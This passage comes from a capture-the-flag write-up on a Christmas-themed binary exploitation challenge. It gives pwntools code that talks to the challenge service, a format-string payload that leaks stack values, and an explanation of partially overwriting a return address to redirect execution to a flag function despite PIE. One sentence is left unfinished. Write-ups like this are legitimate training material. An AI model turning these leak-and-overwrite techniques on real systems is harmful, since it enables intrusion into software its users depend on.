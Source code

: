     
    
    r = remote(ip, 1337)
    r.recvuntil(b"(y/n)? ")
    r.sendline(b"y")
    r.recvuntil(b"i need?\n\n")
    lines = r.recvuntil(b"\n\n").splitlines()
    c = Counter(l[3:] for l in lines)
    

`c` is now a counter that has the number for each color. That makes it easy to
answer the initial questions:

    
    
    r.recvuntil(b"How many red presents are needed?\n > ")
    r.sendline(str(c[b"red"]).encode())
    r.recvuntil(b"And how many yellow presents are needed?\n > ")
    r.sendline(str(c[b"yellow"]).encode())
    r.recvuntil(b"And how many blue presents are needed?\n > ")
    r.sendline(str(c[b"blue"]).encode())
    r.recvuntil(b"me your name?\n > ")
    r.sendline(b"0xdf")
    r.recvuntil(b"else?\n > ")
    

#### Return Address

Last, I need the return address. `tellflag` is called at 1017a0 in Ghidra, and
the return will be to 1017a5:

![image-20231217060433672](../img/image-20231217060433672.png)

When this runs, the top 6.5 bytes will be different due to PIE. But as long as
I overwrite the A5 with A0, it’ll return to the place I want. I’ll update the
null above with

#### Find Leak

The way the stack is set up, after a couple not useful values my raw input
will display. As I don’t want to show all of that, I’ll use the `%n$p` format
reference to get the nth value. With some guessing around, I’m able to find
something that looks like it gives a good leak:

    
    
    payload = b"%30$p.%31$p.%32$p.%33$p.%34$p.%35$p.%36$p.%37$p.%38$p.%39$p."
    payload += (168 - len(payload))*b"A"
    payload += b"\x0a"
    
    r.sendline(payload)
    r.recvuntil(b"Santa: You want me to help you with")
    output = r.recvline()
    print(output)
    breakpoint()
    